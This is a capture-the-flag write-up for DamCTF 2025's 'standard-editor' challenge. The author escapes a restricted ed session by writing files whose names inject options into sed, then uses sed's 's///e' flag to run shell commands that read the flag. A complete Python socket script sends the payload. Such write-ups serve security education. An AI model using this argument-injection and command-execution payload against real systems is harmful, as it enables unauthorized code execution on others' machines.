 # DamCTF2025 - standard-editor writeup

- Write-Up Author: looy3 


## Write up  

---

We were given no description for this challenge, just a netcat command. The command provided a simple terminal session which outputted only the text
```
[Sun May 11 12:34:33 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
```
My gut instinct, based on the last line, is that command injection must be the solution. First, however, I had to figure out what input did in general. I quickly discovered that typing anything and hitting newline just rendered a ?. I didn't know what ed was at the time, so I mostly played around. By writing a Python script which inserted every ASCII character and hit newline, I discovered the following:
1. = returns 0
2. H gives verbose feedback
3. P returns a * after every new line
4. R, w, Q, q, a, c all return different errors or make close
From Google, I quickly discovered that netcat brought me to an Ed session. Ed is [is a line editor and one of the first parts of the Unix operating system that was developed, in August 1969](https://en.wikipedia.org/wiki/Ed_(software)). Google further revealed that there were several commands which should allow me to read/write/execute code. These commands are
1. ! you can run shell commands off this.
2. R/r/e /directory/flag.txt you can load into buffer or read the number of bytes in the flag through this command.
However, running these commands just gave me "directory access restricted" or "shell access restricted". This means that Ed was invoked with red or ed --restricted. So we will not be able to do very much with Ed command directly. To ensure I wasn't missing any commands, I checked what version of ed I was using. I found this on [stackexchange](https://unix.stackexchange.com/questions/657459/what-is-the-difference-between-gnu-ed-and-the-version-of-ed-that-ships-with-unix):
```
These are some other differences:

# as a comment character.

GNU: # is a comment command.
BSD: # is not a valid command.
Plan 9: Like BSD.
POSIX: Like BSD.
Behavior destroying unsaved work.

GNU: e, e !, and q always fails on the first try if the buffer is unsaved.
BSD: Like GNU, but using -s disables the warning.
Plan 9: Like GNU.
POSIX: Like GNU.
Exit status (this is a bit difficult to test thoroughly).

GNU: Terminates with a non-zero exit status if the last command caused an error.
BSD: Most errors cause non-zero termination only with -s.
Plan 9: Seems to never terminate with non-zero exit status.
POSIX: Termination with a zero exit status means "Successful completion without any file or command errors."
The s/// command, but with only the first /.

GNU: s/RE is an error.
BSD: s/RE behaves like s/RE/, which is the same as s/RE//p, i.e. it replaces the substring matching the regular expression RE with nothing and prints the modified line.
Plan 9: Like BSD.
POSIX: Like GNU.
Using ^ as an address.

GNU: ^ is an invalid address.
BSD: ^ addresses the previous line, just like -.
Plan 9: Like BSD.
POSIX: Permits ^ to be the same as -.
Combining the printing commands p, l, and n (like nl), and repeating commands while doing so (as in nlnl or pnnn).

GNU: Combining printing commands is allowed. Repeated commands are not permitted (although pp, nn, and ll are allowed since the standard allows adding p, n, or l to commands other than e, E, f, q, Q, r, w, or !).
BSD: Combining printing commands is allowed. Repeated commands are permitted.
Plan 9: Combinations of two commands out of the three are permitted (not nlp). Repeated commands are not allowed.
POSIX: The effect of combining printing commands is "unspecified".
Upon receiving a HUP signal, the current editing buffer is saved in a file called ed.hup in the current directory. If that fails, the buffer is written to $HOME/ed.hup. What happens if these names already exist?

GNU: The file ed.hup in the current directory will be overwritten if it is a regular file and it's owned by the current user. Otherwise, the file $HOME/ed.hup will be overwritten if it is a regular file owned by the current user. Otherwise, the buffer is lost.
BSD: Like GNU, but the current buffer is also available in a temporary file whose name matches /tmp/ed.*.
Plan 9: Like GNU.
POSIX: Like GNU.`
```
The challenge used GNU ed. Unfortunately, GNU ed doesn't really have any unique commands which would allow me to execute code externally.

Thus, as per my initial hunch, I assumed that either the file name or file contents are executed by something. To test this, I simply devised a python script (not using pwntools, although I should have :P) to test every possible ASCII combination in both the file name and file contents and then wrote it to the local directory (which is allowed under red). Two ASCII characters stood out to me: Both '-' and '.' yielded this error:
```
sed: invalid option -- ' '
Usage: sed [OPTION]... {script-only-if-no-other-script} [input-file]...

  -n, --quiet, --silent
                 suppress automatic printing of pattern space
      --debug
                 annotate program execution
  -e script, --expression=script
                 add the script to the commands to be executed
  -f script-file, --file=script-file
                 add the contents of script-file to the commands to be executed
  --follow-symlinks
                 follow symlinks when processing in place
  -i[SUFFIX], --in-place[=SUFFIX]
                 edit files in place (makes backup if SUFFIX supplied)
  -l N, --line-length=N
                 specify the desired line-wrap length for the `l' command
  --posix
                 disable all GNU extensions.
  -E, -r, --regexp-extended
                 use extended regular expressions in the script
                 (for portability use POSIX -E).
  -s, --separate
                 consider files as separate rather than as a single,
                 continuous long stream.
      --sandbox
                 operate in sandbox mode (disable e/r/w commands).
  -u, --unbuffered
                 load minimal amounts of data from the input files and flush
                 the output buffers more often
  -z, --null-data
                 separate lines by NUL characters
      --help     display this help and exit
      --version  output version information and exit

If no -e, --expression, -f, or --file option is given, then the first
non-option argument is taken as the sed script to interpret.  All
remaining arguments are names of input files; if no input files are
specified, then the standard input is read
```
You can see the steps I took to manually get this error:
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/DamCTF/misc/imsadsadsadsaage.png)

I didn't bother with executing code from sed using . and rather focused on -. First, I tried --version. This worked. I found that we were using the latest version of GNU Sed.
```
[Sun May 11 13:00:19 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
10
sed (GNU sed) 4.9
Packaged by Debian
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Jay Fenlason, Tom Lord, Ken Pizzini,
Paolo Bonzini, Jim Meyering, and Assaf Gordon.

This sed program was built with SELinux support.
SELinux is disabled on this system.

GNU sed home page: <https://www.gnu.org/software/sed/>.
General help using GNU software: <https://www.gnu.org/gethelp/>.
E-mail bug reports to: <bug-sed@gnu.org>.
```
Cool. We can use sed. I tried other payloads, including 
```-n 's/.*/COMMAND/e'```
Dir access was blocked. Sed does allow for numerous wild cards though. But even then, sed only replied that it could not execute '' . It was reading my input as a singular string. I'd have to find a way to execute commands which could be written in a single string. Sed's man page reported the following:
```
--file=script-file

              add the contents of script-file to the commands to be executed
```
Pretty sure I could use that to execute a script file I made using ed (as I could only run one command in sed before session ended). Thus, the following payload, which contains a sed command 
```(s/.*/cd ..; ls .. -a; cd ..; cat flag/e)``` 

inside a script named 'script.txt' is executed by another file written as --file=script.txt with contents --file=script.txt. This finally provided the much wanted flag:

```
dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

This is the full script with all of its sockets :P
```python
import socket
import string

def send_to_netcat(host, port, data):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))
            s.sendall(data.encode())
            s.shutdown(socket.SHUT_WR)

            response = b""
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                response += chunk
            return response.decode()
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    host = "standard-editor.chals.damctf.xyz"
    port = 6733
    commands = f"H\na\ns/.*/cd ..; ls .. -a; cd ..; cat flag/e\n.\nw script.txt\n1d\na\n--file=script.txt\n.\nw --file=script.txt\n"  
    data = commands
    response = send_to_netcat(host, port, data)
    print(response)
    print("\n\n\n")
```

